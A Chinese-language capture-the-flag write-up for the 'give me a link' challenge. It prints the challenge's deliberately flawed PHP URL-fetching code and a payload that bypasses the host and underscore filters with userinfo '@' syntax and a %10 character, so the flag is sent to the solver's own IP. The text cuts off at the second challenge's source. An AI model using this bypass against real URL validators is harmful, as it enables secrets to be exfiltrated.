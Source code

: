 ## give me a link
这个题目超级难。。。。。
```
<?php
    error_reporting(0);
    require __DIR__.'/lib.php';

    if(isset($_GET['url'])){
        $url = $_GET['url'];

        if(preg_match('/_|\s|\0/', $url)){//过滤掉了'_'
            die('Not allowed character');
        }

        if(!preg_match('/^https?\:\/\/'.$_SERVER['HTTP_HOST'].'/i', $url)){   //url参数中含有host地址https://givemealink.solveme.peng.kr
            die('Not allowed URL');
        }

        $parse = parse_url($url);
        if($parse['path'] !== '/plz_give_me'){//url路径中含有plz_give_me
            die('Not allowed path');
        }

        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $parse['scheme'].'://'.$parse['host'].'/'.$flag);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
        curl_exec($ch);
        curl_close($ch);

        echo 'Okay, I sent the flag.', '<hr>';
    }

    highlight_file(__FILE__);
```
![2018-03-20-07-29-26-2018320](http://or4d8nhvk.bkt.clouddn.com/2018-03-20-07-29-26-2018320.png)  
'_'可以使用无效字符绕过   
** RFC3986文档规定，Url中只允许包含英文字母（a-zA-Z）、数字（0-9）、-_.~4个特殊字符以及所有保留字符。** 
保留字符有`!	*	'	(	)	;	:	@	&	=	+	$	,	/	?	#	[	]`  
其他的都是无效字符，例子中我是用%10无效字符   
url中必须有host地址，这个可以通过http认证来绕过    
`http://username:password@www.test.com`
payload: `http://givemealink.solveme.peng.kr/?url=https://givemealink.solveme.peng.kr:1@{自己的ip}/plz%10give%10me`      
然后flag会发送到你自己的主机上面，但是只是一条get访问的形式，所以可以到/var/log/目录下面，用`grep flag *`进行查找    


## give_me_a_link2
```
<?php
    error_reporting(0);
    require __DIR__.'/lib.php';

    if(isset($_GET['url'])){
        $url = $_GET['url'];

        if(preg_match('/_|\s|\0/', $url)){
            die('Not allowed character');
        }

        $parse = parse_url($url);
        if(!preg_match('/^https?$/i', $parse['scheme'])){
```